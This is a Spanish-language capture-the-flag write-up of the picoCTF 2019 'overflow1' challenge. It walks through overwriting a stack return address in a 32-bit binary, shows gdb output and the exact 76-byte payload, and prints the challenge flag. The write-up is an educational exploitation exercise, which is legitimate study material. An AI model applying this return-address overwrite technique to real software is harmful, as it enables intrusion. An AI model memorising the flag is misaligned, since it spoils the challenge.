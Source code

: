 Overflow1
============
###### You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](https://github.com/jntxJ/CTF-WriteUps/blob/master/2019/picoCTF/pwn/overflow1/vuln) ? You can find it in /problems/overflow-1_1_e792baa0d29d24699530e6a26071a260 on the shell server. [Source](https://github.com/jntxJ/CTF-WriteUps/blob/master/2019/picoCTF/pwn/overflow1/vuln.c).
---
El ejercicio nos dice que debemos lograr cambiar la dirección de retorno y que nos lleve a la función `flag`.

Ya con los archivos hacemos `file *` 
```
$ file *
vuln:      ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=5d4cdc8dc51fb3e5d45c2a59c6a9cd7958382fc9, not stripped
vuln.c:    C source, ASCII text
```
Veamos que hace el programa.
```
$ ./vuln 
Give me a string and lets see what happens: 
hello
Woah, were jumping to 0x8048705 !
```
Simplemente nos pide un input y nos dice la instrucción a la que hemos saltado.
Así que cuando logremos llegar a la función `flag`, supongo que nos mostrara la dirección.

Source [vuln.c](https://github.com/jntxJ/CTF-WriteUps/blob/master/2019/picoCTF/pwn/overflow1/vuln.c)

``` C
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  ...
  fgets(buf,FLAGSIZE,f);
```
- Algunos detalles de assembly antes de seguir.

| register | architecture | descripcion |
| :-------:| :----------: | :-----------|
| eip      | 32 bits      | El registro que almacena la siguiente instrucción a la cual ir |
| rip      | 64 bits      | <Instruction pointer register> |
| ebp      | 32 bits      | El registro que apunta a una ubicación fija dentro del marco de una función, así sera más fácil acceder a variables y argumentos |
| rbp      | 64 bits      | <Base pointer register> |


Siguiendo con el fuente, nos encontramos con un buffer de 64, haciendo la prueba de fuego.
```
$ python -c 'print "A"*64' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
```
Vemos que no pasa nada, ya que los siguientes 4 bits guardaran la data que tenga el registro `%ebp` y los siguientes 4 bytes tendrán la dirección de retorno (almacenada en `%eip`).

Lo explica Dhaval Kapil en su brutal [articulo](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/)

Sumaremos los 4 bytes de %eip y los 4 bytes de %ebp, se los agregamos a los 64 del buffer
```
$ python -c 'print "A"*72' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048705 !
Violación de segmento
```
Obtenemos el overflow, bien.

Saquemos la direccion en memoria de la funcion `flag`, con gdb, objdump, ida.. Usa el de preferencia.
```
gdb ./vuln
info functions
...
0x080485e6  flag
...
```
Un detalle importante para este paso es conocer si nuestro sistema es [little-endian o big-endian](http://wikitronica.labc.usb.ve/index.php/Little_Endian_y_Big_Endian)
Esto decidirá como va a leer nuestro programa el procesador.

Si eres un `little-endian` (un pequeño indio e.e), entonces debemos colocar la dirección de `flag` en reverso.

i.e: `0x080485e6  flag` entonces pondremos `e6` `85` `04` `08`
```
$ python -c 'print "A"*72 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
Violación de segmento
```
¿Por que habrá salido dos veces la instrucción?
```
$ gdb ./vuln -q
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
gdb-peda$ b vuln
Breakpoint 1 at 0x8048663
gdb-peda$ r <<< $(python -c 'print "A"*72 + "\xe6\x85\x04\x08"')
```
```
gdb-peda$ c
Continuing.
Woah, were jumping to 0x8048700 !
[----------------------------------registers-----------------------------------]
EAX: 0x22 ('"')
EBX: 0x41414141 ('AAAA')
ECX: 0xffffffff 
EDX: 0xf7fa4010 --> 0x0 
ESI: 0xf7fa2000 --> 0x1d6d6c 
EDI: 0xf7fa2000 --> 0x1d6d6c 
EBP: 0xffffd1b8 --> 0x80485e6 (<flag>:	push   ebp)
ESP: 0xffffd1b4 ("AAAA\346\205\004\b\005\207\004\b\001")
```
Revisando en gdb no he entendido por que, pero seguiré investigando.

Aún no hemos llegado a la dirección de la función `flag`
```
Woah, were jumping to 0x8048700 !
Woah, were jumping to 0x8048705 !
```
Si intentamos `"A"*73` vemos esto:
```
$ python -c 'print "A"*73 + "\xe6\x85\x04\x08"' | ./vuln
Woah, were jumping to 0x8040008 !
```
##### Hemos cambiado el registro que direcciona!!

Why do this :0?
- Sencillamente son los 4 bytes que ocupa la dirección de la función `flag` que estamos agregando despues de imprimir las `"A"`.
```
$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
Flag File is Missing. please contact an Admin if you are running this on the shell server.
```
`Woah, were jumping to 0x80485e6 !`
Y ahí lo tenemos, estamos en la dirección de la función `flag`

Si lo corremos en la shell de picoCTF
```
pico-2019:/$ python -c 'print "A"*76 + "\xe6\x85\x04\x08"' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}Segmentation fault (core dumped)
```
##### picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}
